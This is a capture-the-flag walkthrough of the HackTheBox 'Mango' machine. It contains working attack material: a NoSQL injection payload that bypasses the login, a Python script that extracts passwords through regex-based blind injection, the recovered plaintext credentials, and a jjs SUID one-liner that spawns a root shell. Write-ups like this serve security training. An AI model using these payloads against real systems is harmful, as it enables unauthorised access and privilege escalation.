

First start with an nmap scan

```
Nmap scan report for 10.10.10.162
Host is up, received user-set (0.059s latency).
Scanned at 2019-10-26 15:04:48 EDT for 17s
Not shown: 997 closed ports
Reason: 997 resets
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXYCdNRHET98F1ZTM+H8yrD9KXeRjvIk9e78JkHdzcqCq6zcvYIqEZReb3FSCChJ9mxK6E6vu5xBY7R6Gi0V31dx0koyaieEMd67PU+9UcjaAujbDS3UgYzySN+c5GV/ssmA6wWHu4zz+k+qztqdYFPh0/TgrC/wNPWHOKdpivgoyk3+F/retyGdKUNGjypXrw6v1faHiLOIO+zNHorxB304XmSLEFswiOS8UsjplIbud2KhWPEkY4s4FyjlpfpVdgPljbjijm7kcPNgpTXLXE51oNE3Q5w7ufO5ulo3Pqm0x+4d+SEpCE4g0+Yb020zK+JlKsp2tFJyLqTLan1buN
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqSZ4iBMzBrw2lEFKYlwO2qmw0WPf76ZhnvWGK+LJcHxvNa4OQ/hGuBWCjVlTcMbn1Te7D8jGwPgbcVpuaEld8=
|   256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB1sFdLYacK+1f4J+i+NCAhG+bj8xzzydNhqA1Ndo/xt
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/emailAddress=admin@mango.htb/organizationalUnitName=None/localityName=None
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/emailAddress=admin@mango.htb/organizationalUnitName=None/localityName=None
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
| SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
| -----BEGIN CERTIFICATE-----
| MIIEAjCCAuqgAwIBAgIJAK5QiSmoBvEyMA0GCSqGSIb3DQEBCwUAMIGVMQswCQYD
| VQQGEwJJTjENMAsGA1UECAwETm9uZTENMAsGA1UEBwwETm9uZTEXMBUGA1UECgwO
| TWFuZ28gUHJ2IEx0ZC4xDTALBgNVBAsMBE5vbmUxIDAeBgNVBAMMF3N0YWdpbmct
| b3JkZXIubWFuZ28uaHRiMR4wHAYJKoZIhvcNAQkBFg9hZG1pbkBtYW5nby5odGIw
| HhcNMTkwOTI3MTQyMTE5WhcNMjAwOTI2MTQyMTE5WjCBlTELMAkGA1UEBhMCSU4x
| DTALBgNVBAgMBE5vbmUxDTALBgNVBAcMBE5vbmUxFzAVBgNVBAoMDk1hbmdvIFBy
| diBMdGQuMQ0wCwYDVQQLDAROb25lMSAwHgYDVQQDDBdzdGFnaW5nLW9yZGVyLm1h
| bmdvLmh0YjEeMBwGCSqGSIb3DQEJARYPYWRtaW5AbWFuZ28uaHRiMIIBIjANBgkq
| hkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA5fimSfgq3xsdUkZ6dcbqGPDmCAJJBOK2
| f5a25At3Ht5r1SjiIuvovDSmMHjVmlbF6qX7C6f7Um+1Vtv/BinZfpuMEesyDH0V
| G/4X5r6o1GMfrvjvAXQ2cuVEIxHGH17JM6gKKEppnguFwVMhC4/KUIjuaBXX9udA
| 9eaFJeiYEpdfSUVysoxQDdiTJhwyUIPnsFrf021nVOI1/TJkHAgLzxl1vxrMnwrL
| 2fLygDt1IQN8UhGF/2UTk3lVfEse2f2kvv6GbmjxBGfWCNA/Aj810OEGVMiS5SLr
| arIXCGVl953QCD9vi+tHB/c+ICaTtHd0Ziu/gGbdKdCItND1r9kOEQIDAQABo1Mw
| UTAdBgNVHQ4EFgQUha2bBOZXo4EyfovW+pvFLGVWBREwHwYDVR0jBBgwFoAUha2b
| BOZXo4EyfovW+pvFLGVWBREwDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsF
| AAOCAQEAmyhYweHz0az0j6UyTYlUAUKY7o/wBHE55UcekmWi0XVdIseUxBGZasL9
| HJki3dQ0mOEW4Ej28StNiDKPvWJhTDLA1ZjUOaW2Jg20uDcIiJ98XbdBvSgjR6FJ
| JqtPYnhx7oOigKsBGYXXYAxoiCFarcyPyB7konNuXUqlf7iz2oLl/FsvJEl+YMgZ
| YtrgOLbEO6/Lot/yX9JBeG1z8moJ0g+8ouCbUYI1Xcxipp0Cp2sK1nrfHEPaSjBB
| Os2YQBdvVXJau7pt9zJmPVMhrLesf+bW5CN0WpC/AE1M1j6AfkX64jKpIMS6KAUP
| /UKaUcFaDwjlaDEvbXPdwpmk4vVWqg==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 26 15:05:05 2019 -- 1 IP address (1 host up) scanned in 17.81 seconds
```
Doing some quick enumeration on port 80 will reveal there is nothing there. The nmap scan reveals a commonName ```stagin-order.mango.htb``` so after adding that to my ```/etc/hosts``` file I am greated with a login page.


After some much wasted time I was able to deternine that the box was running MongoDB and required a NoSQL injection. Using *[this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)* I was able to use an authentication bypass exploit using burp.
<br>

I started up burp and intercepted the login request. Then I replaced what was in the data field with ```username[$ne]=toto&password[$ne]=toto```. The request should look something like this.



Now I forwarded that request and was greeted with a new page ```http://http://staging-order.mango.htb/home.php```.


Now that I am authenticated with the system, I need some way to get some valid credentials so I can gain access to the system. Doing some research there is a way to extract passwords using a python script if you have the correct users. Once you see it start printing multiple '$' then then password is everything before it.

```
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                
                post_data = {'username':username, 'password[$regex]':"^" + payload, 'login':'login'}
                r = requests.post(url, data=post_data, allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)
                        
                        exit(0)
                    break
```
For the users I pretty much just guessed ```admin``` and ```mango```. Doing that gave me these credentials
```
user:mango pass:h3mXK8RhU~f{]f5H
user:admin pass:t9KcS3>!0B#2
```
Using this I was able to SSH in as the user mango and then use the command ```su admin``` to change to the admin user. From there I was able to grab the user flag.
```
$ cat user.txt
79bf31c6c6eb38***************
```
Next step was to run a linux enum script. I chose the linux smart enumeration script. Running that instantly reveals something interesting
```
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/bin/run-mailcap
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Some unusual SUID binaries. Taking a look at GTFOBins shows me that ```jjs``` is vulnerable to SUID privilege escalation So thats where I am going to focus my attention. The default command they tell me to run doesnt work. It just hangs and does allow me to execute anything so I had to modify it a little bit to get it to work.
```
Default Command:
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs

Working Command:
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Executing the command you see I get a root shell. The only drawback is that I am unable to see anything that I type but the commands are executed
```
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc $@|bash${IFS}-p _ echo bash -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
bash-4.4#
```
So if I type ```cat /root/root.txt``` then it will output the root flag
```
bash-4.4# 8a8ef79a7a2fbb0**************
```

